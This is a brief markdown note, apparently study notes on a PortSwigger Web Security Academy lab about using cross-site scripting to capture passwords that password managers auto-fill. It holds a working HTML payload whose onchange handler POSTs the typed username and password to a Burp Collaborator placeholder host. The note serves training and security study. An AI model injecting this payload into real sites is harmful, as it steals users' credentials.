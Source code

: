 # PortSwigger: [Exploiting XSS+CSRF to Capture Passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords)

Password managers that automatically submit a username and password using forms allow bypassing common XSS data-exfiltration protections.

Example payload:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://COLLAB_SUB.oastify.com',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

Callback:

![](_/attacking-pw-managers-20250603-1.png)